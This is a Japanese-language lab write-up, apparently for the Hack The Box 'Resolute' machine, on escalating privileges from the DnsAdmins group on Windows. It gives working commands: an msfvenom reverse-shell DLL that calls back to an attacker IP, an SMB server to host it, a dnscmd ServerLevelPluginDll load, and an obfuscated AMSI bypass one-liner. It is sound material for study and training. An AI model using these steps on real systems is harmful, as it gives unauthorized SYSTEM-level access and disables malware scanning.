c.f.) 
- [Read Teaming Experiments](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise)
- https://youtu.be/8KJebvmd1Fk
- [日本語resolu手のwriteup](https://qiita.com/MarshMallow_sh/items/52e04ee4166c7b2b345c#dnsadmins%E6%A8%A9%E9%99%90%E3%82%92%E7%94%A8%E3%81%84%E3%81%9F%E6%A8%A9%E9%99%90%E6%98%87%E6%A0%BC)
- https://phackt.com/dnsadmins-group-exploitation-write-permissions

**WindowsのDNSにはカスタムプラグインとしてDLLを読み込む機能がある。<br>（dns.exeがSYSTEM権限で動いているという前提で）そのカスタムプラグインとしてrevshellを
起動するようなDLLを読み込ませればよい！**


#### ryanはDnsAdminsグループに属す：

```
*Evil-WinRM* PS C:\> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes
========================================== ================ ============================================== ===============================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
MEGABANK\Contractors                       Group            S-1-5-21-1392959593-3013219662-3596683436-1103 Mandatory group, Enabled by default, Enabled group
MEGABANK\DnsAdmins                         Alias            S-1-5-21-1392959593-3013219662-3596683436-1101 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level
```

#### dnsが動いてることを確認：

```
*Evil-WinRM* PS C:\Users\ryan> Get-Process -Name dns

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   5307    3699    69092      68004              3404   0 dns
```

#### dnsサービスの確認：

```
*Evil-WinRM* PS C:\Users\ryan> sc.exe query dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

#### マリシャスdll（ペイロード）の作成：

```
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.3 LPORT=4444 -f dll --platform windows -o rev.dll
```

#### rev.dllがあるディレクトリでsmbサーバを立てる：

```
sudo impacket-smbserver kali ./
or
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali . -smb2support
```

#### 早めにkali側でlistenerを立てておく：

```
$ nc -nvlp 4444
```

#### ryanのリバースシェル上でマリシャスdllをdnsで設定：
> - According to Microsoft protocol specification, the **ServerLevelPluginDl** operation enables us to load a dll of our choosing.
> - dnscmd.exe already implements this option: `dnscmd.exe /config /serverlevelplugindll \\path\to\dll`
> - When executing this dnscmd.exe command as a user (a member of DnsAdmins), this registry key is populated: `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll`

*（注意）このマシンは1分ごとに各サービスが再起動するように設定されていることがnote.txtよりわかっている。*

[ryanのリバースシェル上]

```
*Evil-WinRM* PS C:\Users\ryan> dnscmd.exe resolute.megabank.local /config /serverlevelplugindll \\10.10.14.3\kali\rev.dll
or
*Evil-WinRM* PS C:\Users\ryan> dnscmd.exe 127.0.0.1 /config /serverlevelplugindll \\10.10.14.3\kali\rev.dll

*Evil-WinRM* PS C:\Users\ryan> sc.exe stop dns

*Evil-WinRM* PS C:\Users\ryan> sc.exe start dns
```

（AMSIのバイパスについて）

今回はAMSIによりファイルの転送がいつも通り行かなかった。次を打ち込んで解決した：

```
*Evil-WinRM* PS C:\Users\ryan> [Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
```

AMSIのバイパスは**Impacketのsmbserver**で転送すればできるかも！！

